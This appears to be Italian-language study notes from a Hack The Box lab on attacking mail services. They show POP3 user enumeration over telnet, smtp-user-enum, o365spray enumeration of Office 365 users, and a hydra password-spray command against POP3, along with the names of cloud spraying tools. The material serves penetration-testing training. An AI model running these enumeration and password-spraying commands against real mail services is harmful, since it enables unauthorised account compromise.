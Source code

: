 ### USER command

Possiamo anche usare POP3 per enumerare gli utenti, in base all'implementazione del servizion

```
j4k1dibe@htb[/htb]$ telnet 10.10.110.20 110

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
+OK POP3 Server ready

USER julio

-ERR


USER john

+OK
```

### Automatizzare con smtp-user-enum

https://github.com/pentestmonkey/smtp-user-enum

COn questo script possiamo automatizzare il tutto. con la flag **-M** specifichiamo il metodo (Ad esempio RCPT TO), con -t il target IP, e on -D il dominio

`j4k1dibe@htb[/htb]$ smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7`

## Cloud Enumeration

COme detto prima i servizi cloud danno la loro implementazione. questi servizi hanno custom feature che possiamo abusare tipo per fare username enumeration.

O365 Spray(https://github.com/0xZDH/o365spray) e' un tool per username enumeration e password spraying per Microsoft Office 365.

### Validate e il target usa Office 365
`j4k1dibe@htb[/htb]$ python3 o365spray.py --validate --domain msplaintext.xyz`

### Enumerate username
`j4k1dibe@htb[/htb]$ python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz`

## Password Attacks
Si possono fare password attack con hydra sia a POP3, SMTP e IMAP

`j4k1dibe@htb[/htb]$ hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3` , password spray (pw: COmpany01!) pop3


Molto spesso pero' i servizi in cloud hanno bloccato i tool tipo hydra percio' conviene usare tool fatti apposta tipo **o365spray, MailSniper** per Microsoft Office o **CredKing** per Gmail. I tool vanno aggiornati continuamente perhe' se il service provider cambia qualcosa i tool non funzionano piu'
